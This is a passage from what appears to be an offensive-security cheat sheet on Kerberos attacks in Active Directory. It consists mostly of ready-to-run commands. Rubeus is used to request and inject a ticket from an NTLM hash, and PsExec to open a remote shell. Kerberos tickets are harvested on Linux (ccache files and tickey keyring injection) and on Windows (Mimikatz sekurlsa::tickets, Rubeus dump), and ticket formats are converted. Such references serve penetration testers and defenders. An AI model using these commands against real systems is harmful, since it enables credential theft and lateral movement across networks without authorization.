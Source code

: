 
With [Rubeus](https://github.com/GhostPack/Rubeus) and [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt

# Execute a cmd in the remote machine
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```



## Pass The Ticket (PTT)

### Harvest tickets from Linux

Check type and location of tickets:

```shell
grep default_ccache_name /etc/krb5.conf
```
If none return, default is FILE:/tmp/krb5cc_%{uid}.

In case of file tickets, you can copy-paste (if you have permissions) for use them.

In case of being *KEYRING* tickets, you can use [tickey](https://github.com/TarlogicSecurity/tickey) to get them:

```shell
# To dump current user tickets, if root, try to dump them all by injecting in other user processes
# to inject, copy tickey in a reachable folder by all users
cp tickey /tmp/tickey
/tmp/tickey -i
```

### Harvest tickets from Windows

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
mimikatz # sekurlsa::tickets /export
```

With [Rubeus](https://github.com/GhostPack/Rubeus) in Powershell:
```shell
.\Rubeus dump

# After dump with Rubeus tickets in base64, to write the in a file
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```


To convert tickets between Linux/Windows format with [ticket_converter.py](https://github.com/Zer1t0/ticket_converter):

```
python ticket_converter.py ticket.kirbi ticket.ccache
python ticket_converter.py ticket.ccache ticket.kirbi
```
